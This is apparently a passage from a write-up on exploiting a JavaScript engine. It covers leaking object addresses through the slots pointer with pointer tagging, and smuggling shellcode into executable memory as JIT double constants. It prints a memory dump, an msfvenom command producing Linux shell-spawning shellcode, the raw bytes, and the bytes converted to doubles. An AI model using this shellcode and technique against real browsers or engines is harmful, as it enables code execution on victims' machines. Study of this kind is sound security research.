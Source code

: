 This function requires some explanation. When we create a property on a JavaScript object a pointer to those properties exists inside the object’s metadata (just like our data pointer from before). On the last memory dump we had no properties defined but can still see the slots pointer 2 values before the data pointer:

```
...
0x3f20d3c6a118: 0xfffe4d4d4d4d4d4d  0xfffe4d4d4d4d4d4d
0x3f20d3c6a128: 0x00003f20d3c66720  0x000055fd568dc088 < slots
0x3f20d3c6a138: 0x000055fd568db828  0x00003f20d3c6a160 < elementsData
0x3f20d3c6a148: 0x0000000000000050  0xfffe09cda9d00820
0x3f20d3c6a158: 0xfff8800000000000  0x424242424242424
...
```

Now if we define a custom property `b.leak` and then use our read primitive to dereference the slots pointer, we get the address of our `obj` which was placed in the slots array. Note that we must mask off the first 2 bytes since these encode type information (pointer tagging).

## Exploitation

If we think about exploitation, we want to get shellcode somewhere in memory and execute it. Unfortunately, it is not that easy because via JavaScript writeable locations are not executable and anything we write from JavaScript might just be interpreted and not even appear consecutive in memory. Even if we had our shellcode in memory and it would be executable – we would still need to find a way to jump to it using just JavaScript since we have some primitives but no control over any registers or the instruction pointer.

Let’s solve the shellcode problem first. One way to get your own code into executable memory is to use double constants. I learned about this method in this SentinelOne blog post: <https://www.sentinelone.com/labs/firefox-jit-use-after-frees-exploiting-cve-2020-26950/>. Doubles have an 8-byte backing buffer and if we define a bunch of them as constants after another we can get our shellcode bytes in consecutive, executable memory. I wrote a simple online converter to convert shellcode to doubles: <http://127.0.0.1/shellcode-converter/>.

**Shellcode**

```terminal
msfvenom -p linux/x64/exec cmd="/bin/sh -c 'id; bash'" -f csharp

byte[] buf = new byte[58] {0x48,0xb8,0x2f,0x62,0x69,0x6e,
0x2f,0x73,0x68,0x00,0x99,0x50,0x54,0x5f,0x52,0x66,0x68,0x2d,
0x63,0x54,0x5e,0x52,0xe8,0x16,0x00,0x00,0x00,0x2f,0x62,0x69,
0x6e,0x2f,0x73,0x68,0x20,0x2d,0x63,0x20,0x27,0x69,0x64,0x3b,
0x20,0x62,0x61,0x73,0x68,0x27,0x00,0x56,0x57,0x54,0x5e,0x6a,
0x3b,0x58,0x0f,0x05};
```

**Converted Shellcode**

```
6.867659397734779e+246
7.806615353364766e+184
2.541954188459429e-198
3.2060568060029287e-80
3.4574612453438036e+198
7.57500810708945e-119
1.0802257739008538e+117
-6.828527034370483e-229
```
